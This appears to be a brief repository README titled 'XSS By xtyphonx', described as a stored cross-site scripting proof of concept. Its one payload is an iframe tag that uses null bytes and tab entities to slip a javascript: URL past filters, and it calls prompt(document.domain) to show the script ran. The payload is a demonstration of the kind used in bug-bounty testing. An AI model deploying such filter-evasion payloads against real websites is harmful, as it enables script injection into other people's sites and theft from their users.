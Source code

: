 ### XSS By xtyphonx


##### PoC : 

stored xss PoC


#### XSS Payload List :

```

<!--        Author : https://hackerone.com/xtyphonx -->


<iframe %00 src="&Tab;javascript:prompt(document.domain)&Tab;"%00>




#### References :

